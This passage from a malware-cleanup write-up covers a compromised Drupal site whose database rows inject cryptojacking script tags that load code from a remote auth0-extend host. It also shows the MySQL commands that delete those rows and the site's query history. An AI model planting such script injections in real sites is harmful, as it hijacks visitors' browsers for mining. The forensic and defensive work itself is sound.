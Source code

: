 ```javascript
  },1000)
})
```

This script is trying to load more cryptojacking scripts. It has a similar resemblance to: https://coinhive.com/documentation/miner

### MySQL Database Lookup

Drupal uses MySQL database to load HTML content from modules. The hidden malicious javascript code (found in HTML) is injected in a MySQL table: block_custom in database: subdomainsite

```console
|   8 | <script type="text/javascript" src="https://wt-23afbbf05d73a701c3ef54b49e4de14c-0.sandbox.auth0-extend.com/full-http-control"></script>
| drupal update | php_code |
|   9 | <script type="text/javascript" src="https://wt-23afbbf05d73a701c3ef54b49e4de14c-0.sandbox.auth0-extend.com/full-http-control"></script>
| drupal updater | full_html |
```

Looks like these rows are forcing the site to load the cryptojacking scripts. Hence, we clean up these rows from MySQL:

```console
mysql> delete from block_custom where bid=8;
Query OK, 1 row affected (0.05 sec)

mysql> delete from block_custom where bid=9;
Query OK, 1 row affected (0.03 sec)
```

After deleting the rows, the footer code disappears, thus removing the malware from loading on the page.

Also, when looking at MySQL command history:

```console
user@host:/var/www/subdomain$ cat ~/.mysql_history
show databases;
use subdomainsite;
show tales;
show tables;
select column from users;
select * from users;
show cloumns from users;
show columns from users;
select mail from users;
show databases;
use subdomainsite;
select * from users;
show columns from users;
select * from users where mail like '@drupaler%';
select * from users where mail like '%@drupaler%';
delete from users where mail like '%@drupaler%';
select mail from users;
show databases;
use subdomainsite;
select mail from users;
select * from users where mail like '%brainhard%';
delete from users where mail like '%brainhard%';
select mail from users;
delete from users where mail like '%bee@addmyhome.com%';
delete from users where mail like '%canie.assassins-creed.org%';
delete from users where mail like '%quinn.adkins38@visitnorwayusa.com%';
delete from users where mail like '%menherbalenhancement.com%';
show databases;
```